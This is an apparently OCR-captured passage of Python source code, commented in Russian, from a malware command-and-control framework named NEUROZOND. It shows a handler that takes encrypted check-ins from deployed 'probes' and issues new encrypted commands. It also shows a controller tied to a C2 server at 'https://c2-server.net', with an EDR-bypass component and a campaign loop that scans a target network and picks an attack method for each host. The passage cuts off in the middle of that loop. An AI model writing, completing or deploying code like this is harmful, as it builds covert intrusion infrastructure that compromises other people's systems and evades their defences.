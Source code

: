         # Обновляем информацию о зонде
        self.active_probes[probe_id]["last_check_in"] = time.time()
        self.active_probes[probe_id]["status"] = "active"
        
        # Обрабатываем полученные данные
        decrypted_data = self.encrypted_channel.decrypt(
            data, 
            self.active_probes[probe_id]["config"].encryption_key
        )
        
        # Анализируем полученные данные
        result = self.analyze_probe_data(probe_id, decrypted_data)
        
        # Определяем следующую команду
        next_command = self.determine_next_command(probe_id, result)
        
        # Шифруем команду для отправки
        encrypted_command = self.encrypted_channel.encrypt(
            next_command,
            self.active_probes[probe_id]["config"].encryption_key
        )
        
        return {"command": encrypted_command}

# Основной контроллер системы NEUROZOND
class NeurozondController:
    def __init__(self):
        self.probe_controller = ProbeController("https://c2-server.net")
        self.target_analyzer = TargetAnalyzer()
        self.network_scanner = NetworkScanner()
        self.edr_bypass = EDRBypassTechniques()
        
    def start_scanning_campaign(self, target_network):
        """Начинает кампанию сканирования сети и развертывания зондов"""
        # Сканируем сеть для обнаружения потенциальных целей
        targets = self.network_scanner.scan_network(target_network)
        
        # Анализируем каждую цель
        for target in targets:
            target_info = self.target_analyzer.analyze(target)
            
            # Определяем лучший метод атаки
            attack_method = self.determine_best_attack_method(target_info)
            